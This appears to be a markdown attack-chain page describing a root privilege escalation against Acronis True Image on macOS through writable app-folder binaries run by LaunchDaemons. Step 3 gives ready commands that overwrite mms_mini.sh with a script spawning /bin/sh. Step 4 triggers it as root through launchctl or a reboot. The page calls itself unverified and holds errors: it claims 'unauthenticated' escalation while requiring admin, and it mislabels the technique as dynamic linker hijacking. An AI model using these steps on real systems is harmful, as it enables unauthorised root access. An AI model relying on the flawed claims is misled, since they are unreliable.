

# Acronis True Image Local Privilege Escalation via Insecure Folder Permissions

Multi-stage attack chain demonstrating a complete attack workflow exploiting insecure folder permissions in Acronis True Image on macOS to achieve root privilege escalation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses built-in macOS tools)

### Target Environment

- macOS (tested on versions supporting Acronis True Image)
- Acronis True Image installed via drag-and-drop (not pkg installer)
- Admin user privileges

### Initial Access Requirements

- Local admin access to the target macOS system
- No network access required
- Physical or remote access to install and modify files

## Detailed Attack Procedures

### Step 1: Install Acronis True Image via Drag-and-Drop
procedure: [[procedures/Install-Acronis-True-Image-via-Drag-and-Drop]]

**Objective**: Install the application in a way that leaves the app folder writable by admin users, enabling subsequent modifications.

**Instructions**: Download the Acronis True Image DMG file and perform a drag-and-drop installation to /Applications/, which sets permissive permissions (e.g., 755 or writable by admin) on the app bundle and its Contents/MacOS/ subfolder, unlike a pkg installer that would set root:wheel ownership.

**Expected Output**: Acronis True Image.app installed in /Applications/ with admin write access verifiable via `ls -la /Applications/Acronis\ True\ Image.app/`.

**Success Indicators**:
- App folder permissions allow admin write: `drwxr-xr-x admin staff`
- No root-only restrictions on Contents/MacOS/

### Step 2: Examine the LaunchDaemon Plist Files
procedure: [[procedures/Examine-Acronis-LaunchDaemon-Plist-Files]]

**Objective**: Identify root-executed binaries located in the writable app folder by reviewing LaunchDaemon configurations.

**Instructions**: Use [[commands/cat-acronis-launchdaemons]] to inspect the plist files:

```bash
cat /Library/LaunchDaemons/com.acronis.*
```

Look for ProgramArguments pointing to executables like /Applications/Acronis True Image.app/Contents/MacOS/prl_stat, mms_mini.sh, schedul2, etc.

**Expected Output**: XML plists showing root execution (UserName: root) and paths to binaries in the app's MacOS folder.

**Success Indicators**:
- Plists reveal binaries in writable /Contents/MacOS/ that run as root
- Triggers like RunAtLoad or StartInterval identified

### Step 3: Replace an Executable in the App Folder with a Malicious One
procedure: [[procedures/Replace-Executable-in-Acronis-App-Folder-with-Malicious-Binary]]

**Objective**: Overwrite a root-executed binary with malicious code to hijack execution flow.

**Instructions**: Due to writable permissions, create a malicious script (e.g., `/bin/sh` to spawn root shell) and replace a binary like schedul2 or mms_mini.sh using `cp` or `mv`. For example:

```bash
echo '#!/bin/sh' > /tmp/malicious.sh
echo '/bin/sh' >> /tmp/malicious.sh
chmod +x /tmp/malicious.sh
cp /tmp/malicious.sh /Applications/Acronis\ True\ Image.app/Contents/MacOS/mms_mini.sh
```

**Expected Output**: Binary replaced without errors, verifiable with `ls -la /Applications/Acronis\ True\ Image.app/Contents/MacOS/mms_mini.sh`.

**Success Indicators**:
- File modification succeeds as admin
- Permissions remain executable

### Step 4: Trigger the LaunchDaemon to Execute the Malicious Binary
procedure: [[procedures/Trigger-LaunchDaemon-to-Execute-Malicious-Binary]]

**Objective**: Activate the daemon to run the malicious binary as root, achieving privilege escalation.

**Instructions**: Reload or wait for the daemon trigger (e.g., boot or interval like 1209600 seconds for com.acronis.acep). Use `sudo launchctl load /Library/LaunchDaemons/com.acronis.plist` if needed, or reboot to trigger RunAtLoad.

**Expected Output**: Malicious script executes as root, spawning a root shell.

**Success Indicators**:
- Root shell obtained: `whoami` returns 'root'
- Arbitrary root commands executable

## Attack Chain Summary

### Key Achievements

1. Exploited drag-and-drop installation to gain write access to root binaries
2. Identified vulnerable LaunchDaemons via plist examination
3. Replaced binary to hijack root execution
4. Achieved unauthenticated root privilege escalation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Dynamic Linker Hijacking]] Dynamic Linker Hijacking (adapted for macOS binary replacement)

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
